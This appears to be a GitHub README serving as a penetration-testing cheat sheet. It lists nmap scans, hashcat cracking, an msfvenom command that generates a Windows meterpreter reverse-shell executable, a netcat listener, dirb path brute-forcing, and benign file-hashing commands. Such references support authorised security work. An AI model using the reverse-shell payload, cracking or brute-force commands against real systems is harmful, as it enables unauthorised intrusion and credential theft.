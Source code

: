 # 🔫Quick Reference Commands

## 🛡️ Offensive Security Commands
### Nmap default port scan
```bash
nmap -p- -O -v -sV -sC <IP ADDRESS>
```
-- Default mass port scan with OS and Service identification 

### Nmap Aggressive port scan
```bash
nmap -A -v <IP ADDRESS>
```
-- Aggressive Port Scan

### Retrieve a file from an FTP server
```bash
mget *
```
-- Full all files from a directory from an FTP server

### Crack a Password with Hashcat 
```bash
hashcat -O -a 0 -m <HASH Type> <FILE HASH>:<SALT>
```
-- This command runs Hashcat in optimized mode (`-O`) to crack a hash (`<FILE HASH>`) that uses a salt (`<SALT>`), using a dictionary attack (`-a 0`) against a specific hash type 

### Create Reverse Shell Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL HOST> LPORT=4444 -f exe > shell.exe
```
-- This command will utilise the MSF venom package of the Metasploit framework and generate a revers shell listening on port 4444

### Host a Python Webserver
```bash
python3 -m http.server 8000
``` 
-- This command will host a minimised webserver on port 8000 locatable at the local IP of the endpoint 

### Create a Network Share
```bash
net share <NAME OF SHARE>=<PATH TO DIRECTORY OF SHARE>
```
-- This command will create a sharable drive on the system that allows other endpoints on the network to access

### Create a Quick Reverse Shell Listener
```bash
nc -nvlp 3333
```
-- This command will issue a net cat listener on port `3333`  without resolving DNS and providing a verbose output

### Create a Quick Reverse Shell 
- Utilising the resource available at [revshells.com](https://revshells.com) can provide multiple ways to generate a reverse shell.

## 📝File Information

### Retrieve basic file information
```bash
file <FILE NAME>
```
-- This will provide a high level overview of a given file specifying file type and offset

### Provide a hexdump of a file
```bash
xxd <FILE NAME>
```
-- This will provide a hexdump of a given file

## \# File Hashing
### Retrieve a file hash (linux)
```bash
<FILE HASH TYPE>sum <FILE NAME>
```

### Retrieve a file hash (Powershell)
> Default is SHA256 e.g. no provided `-alg` statement
```bash
get-filehash <FILE NAME> -alg <FILE HASH TYPE>
```

### Retrieve a file hash (Win)
```bash
certutil -hashfile <FILE NAME> <FILEHASHTYPE>
```

## Other

### Get Architecture Information
```bash
wmic os get osarchitecture
```
-- This command will identify what architecture the system is running (e.g. 32-bit/64-bit)

### Command Line Base64 Decode
```bash
echo "<BASE64 STRING>" | base64 -d
```
-- This command will decode any provided base 64 

### Dirb Search
```bash
dirb http://example.com /usr/share/wordlists/dirb/big.txt -X .php,.txt,.exe,.html,.jpg,.jpeg,.png,.doc,.htm,.pdf,.xml,.log,.com,.sh,.zip
```
- this will attempt to brute force all paths available on a given site 